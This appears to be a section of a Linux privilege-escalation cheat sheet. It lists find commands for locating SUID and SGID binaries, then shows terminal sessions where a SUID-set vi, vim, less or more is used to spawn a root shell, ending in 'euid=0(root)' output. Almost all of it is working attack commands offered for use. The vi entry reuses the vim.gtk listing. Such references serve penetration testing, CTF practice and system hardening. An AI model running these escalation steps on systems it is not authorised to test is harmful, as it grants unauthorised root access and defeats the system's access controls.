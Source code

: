 __2.2.1 Escalate privilege - SUID & SGID file__
* Find SGID bit set files
```
find / -perm -g=s -type f 2>/dev/null
```

* Find SUID bit set files
```
find / -perm -u=s -type f 2>/dev/null
```

* Find SUID or SGID bit set files
```
find / -perm -g=s -o -perm -u=s -type f 2>/dev/null
```

If the following binary has SUID bit set you may exploit them to get root shell:
* vi
```
bash-4.3$ ls -al /usr/bin/vim.gtk
-rwsr-xr-x 1 root root 3170356 May 10  2016 /usr/bin/vim.gtk

vi /tmp/exploit
:!/bin/sh
# id
uid=1002(overflow) gid=1002(overflow) euid=0(root) groups=1002(overflow)
```

* vim
```
bash-4.3$ ls -al /usr/bin/vim.gtk
-rwsr-xr-x 1 root root 3170356 May 10  2016 /usr/bin/vim.gtk

vim /tmp/exploit
:!/bin/sh
# id
uid=1002(overflow) gid=1002(overflow) euid=0(root) groups=1002(overflow)
```

* less
```
bash-4.3$ ls -al /bin/less
-rwsr-xr-x 1 root root 180124 Feb 28  2016 /bin/less

bash-4.3$ less /etc/passwd
!/bin/sh
# id
uid=1002(overflow) gid=1002(overflow) euid=0(root) groups=1002(overflow)
```

* more
```
$ ls -al /bin/more
-rwsr-xr-x 1 root root 38720 Aug 15  2016 /bin/more

bash-4.3$ more /etc/passwd
!/bin/sh
# id
uid=1002(overflow) gid=1002(overflow) euid=0(root) groups=1002(overflow)
```
